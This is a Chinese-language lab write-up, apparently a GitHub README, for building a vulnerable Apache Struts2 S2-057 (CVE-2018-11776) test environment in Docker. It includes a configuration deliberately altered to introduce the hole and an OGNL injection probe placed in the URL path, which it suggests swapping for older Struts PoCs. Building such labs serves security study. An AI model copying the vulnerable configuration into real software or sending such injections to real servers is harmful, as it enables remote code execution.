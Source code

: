 # St2-057 在线靶机环境，Enjoy！


# 0x01 搭建环境docker

https://github.com/vulhub/vulhub/tree/master/struts2/s2-048

```
docker-compose up -d
```

# 0x02 搭建st2-057漏洞环境

```
docker exec -i -t 88fd8d560155 /bin/bash
```
后台启动进入docker
![](./docker-struts-048.jpg)

根据公告
https://struts.apache.org/releases.html

```
Release	Release Date	Vulnerability	Version Notes
Struts 2.5.16	16 March 2018	S2-057	Version notes
Struts 2.5.14.1	30 November 2017	Version notes
Struts 2.5.14	23 November 2017	S2-055, S2-054	Version notes
```
![](./in-st2-57.jpg)
Struts 2.5.16存在s2-057漏洞，然后去下载这个版本

https://fossies.org/linux/www/legacy/struts-2.5.16-all.zip/

```

apt-get update -y
mkdir /usr/local/tomcat/webapps/test
wget https://fossies.org/linux/www/legacy/struts-2.5.16-all.zip
apt-get install unzip -y
cp struts2-showcase.war /usr/local/tomcat/webapps/

```
![](./wget-st2-057.jpg)

# 0x03 修改配置文件

先查找文件struts-actionchaining.xml，发现有2处需要修改
```
root@88fd8d560155:/usr/local/tomcat/webapps/test# locate struts-actionchaining.xml
/usr/local/tomcat/webapps/struts2-showcase/WEB-INF/classes/struts-actionchaining.xml
/usr/local/tomcat/webapps/struts2-showcase/WEB-INF/src/java/struts-actionchaining.xml
/usr/local/tomcat/webapps/test/struts-2.5.16/src/apps/showcase/src/main/resources/struts-actionchaining.xml
root@88fd8d560155:/usr/local/tomcat/webapps/test# 

```
配置文件修改-参考链接：
https://lgtm.com/blog/apache_struts_CVE-2018-11776

改为如下所示：

```
<struts>
    <package name="actionchaining" extends="struts-default">
        <action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
           <result type="redirectAction">
             <param name = "actionName">register2</param>
           </result>
        </action>
    </package>
</struts>
```
![](./struts-actionchaining.jpg)

然后去bin目录，kill掉进程,因为修改了配置文件，所以需要重启服务
```
root@88fd8d560155:/usr/local/tomcat/bin# cd /usr/local/tomcat/bin/
root@88fd8d560155:/usr/local/tomcat/bin# ls
bootstrap.jar	    catalina.sh			  commons-daemon.jar  daemon.sh  setclasspath.sh  startup.sh	   tool-wrapper.sh
catalina-tasks.xml  commons-daemon-native.tar.gz  configtest.sh       digest.sh  shutdown.sh	  tomcat-juli.jar  version.sh
root@88fd8d560155:/usr/local/tomcat/bin# ./shutdown.sh 

```
![](./down.jpg)

# 0x04 重启服务，st2-057搭建完成
```
 ✘ ⚡ root@HK  ~/vulhub/struts2/s2-048   master ●  docker-compose up -d
Starting s2-048_struts2_1 ... done
 ⚡ root@HK  ~/vulhub/struts2/s2-048   master ●  
```
# 0x05  验证st2-057
docker 靶机：http://www.canyouseeme.cc:8080/struts2-showcase/

命令执行：http://www.canyouseeme.cc:8080/struts2-showcase/${(111+111)}/actionChain1.action

${(111+111)}

得到执行结果返回在url中：http://www.canyouseeme.cc:8080/struts2-showcase/222/register2.action

![](./st2-57.jpg)

Ps: ${(111+111)} 可以替换成以前的poc，例如S2-032



# 0x06 参考链接

```
https://github.com/vulhub/vulhub/tree/master/struts2/s2-048
https://lgtm.com/blog/apache_struts_CVE-2018-11776
https://cwiki.apache.org/confluence/display/WW/S2-057
https://www.anquanke.com/post/id/157518
```
